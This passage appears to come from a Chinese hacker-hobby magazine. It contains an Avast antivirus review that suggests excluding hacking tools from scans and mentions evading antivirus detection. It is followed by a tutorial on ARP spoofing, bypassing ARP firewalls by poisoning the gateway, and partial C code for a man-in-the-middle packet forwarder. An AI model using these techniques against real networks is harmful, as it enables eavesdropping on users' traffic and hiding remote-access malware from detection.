| KASPERSKY INTERNET SECURITY | 4.62% |
| AVG ANTIVIRUS | 4.19% |
| MCAFEE VIRUSSCAN | 3.34% |
| ESET SMART SECURITY | 2.59% |
| OTHERS | 35.06% |

图1

打开AVAST!的安装程序，界面如图2。界面设计还不错，很小清新，挺喜欢这种风格。对于我们这种学黑的汉子来说，我们当然选择自定义安装了。安装路径最好是系统盘，备份的话会更为方便一些。接下来便是AVAST!组件的选择了，这里我们按自己的实际情况来选择。我们先点击左侧的自定义，之后再在右侧勾选我们需要的组件。我这里没有勾选两个组件：一为邮件保护，二是AVAST!远程协助，如图3。



图2



图3

我们点击“下一步”开始安装，安装过程仅用了两分钟不到的时间。在安装之后AVAST!便会扫描我们的系统，当然我们为了避免我们的黑客工具被查杀可以选择取消。安装完成之后，AVAST!会自动打开。如果我们开了音响的话，会听到很有爱的中文语音提示。而且AVAST!在操作上也是很便利的，在主界面处按Alt键后会出现便捷操作的提示，如图4。这种操作方式很大地提高了我们的工作效率，这款杀毒软件做得确实很用心。



图4

接着AVAST!弹出窗口让我们注册程序，如图5。AVAST!提供了差异化的服务，我们只需要选择左侧的基本保护即可。之后会让我们提供基本的个人信息来注册一个账号，我们注册完成后还会提供20天的全面保护服务。其实对于我们来说，我们并不需要那么多的功能，基本保护已经足够了。



当然作为学习黑客的叉子来说，我们需要对AVAST!进行下小小的设置，确保AVAST!在保护我们的安全的时候不查杀我们的黑客工具。点开AVAST!主界面的设置按钮，进入排除选项卡，设置排除目录即可。

AVAST!的查杀速度是相当之快的，如图6。我准备的是5个已经过了国内杀软的远控，查杀出来了4个，而且时间仅花费了4秒钟。不知道对于这款杀软的免杀是不是很难，有时间来试试，或许大家会在以后的杂志上看到小生免杀AVAST!的文章。



说完了查杀效率和精准性，我们来看看AVAST!的误杀率怎么样。大家知道用易语言写出来的程序是很容易被误查杀的，我这里就用了一个被360提示不安全的外挂（当然经小生测试，这外挂是非常安全的，就是会弹出些广告）来看看这款杀软误杀程度怎么样。AVAST!并没有报毒，我们可以以小见大来说AVAST!的误杀程度不高；当然这不是很准确的，真正的评测还是要我们自己体验了才知道。

我们并不是时刻都要用上杀毒软件的，所以占用系统资源大小也是不能太高的。我们使用360游戏优化器来查看占用内存的多少，如图7。我们可以看到AVAST!的服务占用内存较360的服务占用内存略高一些。但是AVAST!程序占用的内存比360的程序占用内存低了近一倍。

在功能上，诸如国产杀毒软件的云查杀等功能，AVAST!也都是有的。不过什么杀毒软件都敌不过我们的慧眼，杀毒软件也只是个辅助罢了。在我们不需要用上它的时候，它不必出现。我们需要再更改下设置，使这个工具用得更为顺手。

打开设置，进入疑难排除选项卡，如图8。不选择“启用系统启动时Rootkit扫描”及“启用AVAST!开机扫描时的原始磁盘访问”这两个选项，从而来加快我们的开机速度。如果愿意的话，也可以将AVAST!设置为不开机启动。想降低AVAST!的系统占用的话，就将“启用AVAST!自我防御模块”的勾去掉。还有一个重要的问题，如果在安装AVAST!之后系统出现异常的话，那就请将“仅在加载其他系统服务之后再加载AVAST!服务”选项勾上。





小生对于这款国外杀毒软件的评价还是不错的，值得一用。反正是免费的，如果大家用着不爽，直接就可以卸载。对于文章有任何问题的话，欢迎大家到微博（t.qq.com/hopes-evan）与我互动；或者前往博客（www.hopeblog.tk）留言。

# 木马矛，亦可盾

吴梦龙

## 前言

网络乃双刃剑也，它的安全掌握在使用者的目的上。监听网络流量的目的是什么呢？木马程序监听目的是为窃取网络上的敏感信息，网络管理员监听目的是为排除网络故障。在企业网络中监听网络数据流量一般都不具有对流量拦截的功能，只能旁路上看流经的数据内容，不能对数据做任何修改和拦截。多是在交换机内部网络上连接两台设备，一个端口连接被监听终端，另一端口连接运行监听功能的终端，交换机上配置端口镜像功能，流经被监听终端的流量完全拷贝一份到监听终端上。交换机外侧连接网络防火墙，防火墙对到来的数据做安全检查，依照特定的规则，允许或是限制传输的数据通过，在内部网络和外部网络之间充当代理角色。

对于家庭用户安装的防火墙都是木马防火墙，木马防火墙对运行软件的行为做分析，一旦有可疑程序做出可能影响系统安全的行为，则自动拦截或弹出对话框给用户选择，并不能像传统的网络防火墙对终端访问网络制定特殊限制。



图1

ARP欺骗攻击目的可归结于两方面：
- 迫使被攻击终端断网；
- 监听被攻击方网络流量。

ARP映射表的IP-MAC关系被假的映射关系所覆盖，被攻击方出现的症状首先是断网，之后可能在攻击终端充当中间路由转发数据包，才重新与网络连接上。此时被攻击方的网络流量处在被监听状态。对于用于监听网络流量的ARP攻击而言，攻击终端实际上成了被攻击终端访问外部网络的中间设备。

转发前对流经的数据做规则分析即可像“软防火墙”那样对数据过滤、检测。下面介绍这款兼具ARP攻击和软防火墙功能的“中间人”软件制作过程及其相关技术，本软件需要WinPcap和Libnet开发包支持。（图1）

## 一、矛篇

局域网里最不易于防范的攻击莫过于ARP欺骗攻击，攻击方式多变。ARP协议属于网络层上的协议，网络层的目的是保证网络终端设备之间存在通信的通道，负责数据发往何方，也就是路由或寻径。其协议安全性低，不像TCP连接一样对通信终端传输的数据做安全检查，易于实现欺骗。正常ARP数据流过程是：一方先发起广播寻找IP-MAC对应关系的Request数据包，内网终端接收到请求后只有本终端IP与请求IP相一致的才返回Reply数据包，双方更新自身ARP映射表。但ARP协议中并没有要求只有发出Request包后才能响应Reply包，给黑客有机可乘，所以简单的ARP欺骗只要按照ARP协议头格式构造出重定向数据包发送即可。

道高一尺，魔高一丈。针对ARP攻击也有相应的防范措施，如双向ARP静态绑定、VLAN隔离、交换机端口监控、ARP防火墙等，下面针对ARP防火墙讨论。

如何突破ARP防火墙？首先了解ARP防火墙工作原理，一种是具有ARP防范功能的路由器，其原理是定期向内网发送自己的IP-MAC对应关系。另一种是如360 ARP防火墙，其原理是首先有一张用于维护的ARP表，当接收到ARP数据包与表内不一致就广播自身IP-MAC信息。这两种防范措施都是以牺牲带宽为代价保证网络畅通。

对于单纯的ARP欺骗攻击，又无奈于被攻击终端ARP防火墙报警，突破ARP防火墙一种简单方法是频繁地发送伪造的数据包，因为有一点是可以肯定的，对于相同配置的机器，“发送”同大小的数据比“接收”所需的时间要少。只要ARP防火墙防护的速度跟不上攻击速度便可迫使其断网。可是这种手段过于“暴力”，带宽占用率高，暴露攻击方的存在，攻击对方的同时也影响自身正常的网络通信，一旦停止发送虚假数据包，被攻击终端立即恢复网络连接。相比较而言，笔者更倾向于使用另一种“文雅”的手段——攻击网关。只要网关没有做ARP静态绑定，伪造一次数据包发送给网关，攻击网关是绕过类似360 ARP防火墙行之有效的方法，使得ARP防火墙如同虚设。通信需要双方的参与，只要一方的通信过程存在异常，通信都是失败的。

# 安全第一

ARP攻击的行为一般都是：扫描——欺骗——转发，其中转发过程根据应用情况有删减，本软件行为过程也不例外。





首先扫描本地子网里存活的终端。选择一块网卡，向子网内所有合法的终端地址广播ARP Request数据包，同时另一线程抓取流经本地的数据包，解析抓取到的ARP Reply数据包，记录数据包内容。（图2）发送与接收同步执行，其效率显著，发送255个ARP Request数据包能在5ms内完成（图3）。Windows的API函数SendARP，由于需要等待反馈信息而进入阻塞状态，倘若终端不存在，扫描每个地址将阻塞秒级以上等待时间，不适合终端扫描工作。




扫描完本地子网内存活的终端后，配置欺骗策略进行欺骗过程，定义被欺骗的内网目标为Target，网关为Gateway。本机是Middle（图4）。Middle向所有Target和Gateway发送ARP Reply数据包，ARP头MAC源地址都与Middle的MAC地址相同。就如前面的理论一样，被欺骗终端内ARP列表网关的MAC地址与攻击终端的MAC相同，可想而知在Gateway和Target内的ARP列表将有两个IP地址对应MAC地址00-21-85-1B-50-B1（图5、6）。


Middle要实现“中间人”的角色，必须转发来自两设备的通信数据，在Gateway和Target之间是透明的。数据流向按路由器方向可分为：由内网流向外网（Inside To Outside）和由外网到内网（Outside To Inside）。在转发前数据流将存在过程2停止，数据包协议头只有Ethernet头是错误的，Middle需要从数据的协议头来判断数据流向，从而修改Ethernet头信息。ITO方向直接修改Ethernet头的目的地址为网关地址，源地址修改为自己的地址。OTI方向则查询IP头目的地址属于内网的哪一台终端，然后将Ethernet头的目的地址修改为终端的正确地址，源地址也修改为自己的地址，即可完成转发功能，实现“中间人”窃听过程。（图7）


实现代码如下：

```c
void TransmitGetPacket(u_char *argument, const struct pcap_pkthdr *packet_header, const u_char *packet_content)
{
    // 内网到外网数据包处理
    if(g_trac){
        eth_hdr = (libnet_ethernet_hdr*)packet_content;
        ip_hdr  = (libnet_ipv4_hdr*)(packet_content + LIBNET_ETH_H);
        ...
    }
}
```

```c
... // inside to outside
if (ip_hdr->ip_dst.s_un.s_addr != g_tlp->locPC.ip) {
    t = g_tlp->pcList;
    for (int i = 0; i < g_tlp->pcListNum; ++i) {
        if (CompareMAC((u_char*)(&eth_hdr->ether_shost), (u_char*)(t->mac)) == 1) {
            memcpy(&eth_hdr->ether_shost, g_tlp->locPC.mac, 6);
            memcpy(&eth_hdr->ether_dhost, g_tlp->gw.mac, 6);
            pcap_sendpacket(g_tlp->hpcap, packet_content, packet_header->caplen);
            goto _HaveSend;
        }
        t++;
    }
}

... // outside to inside
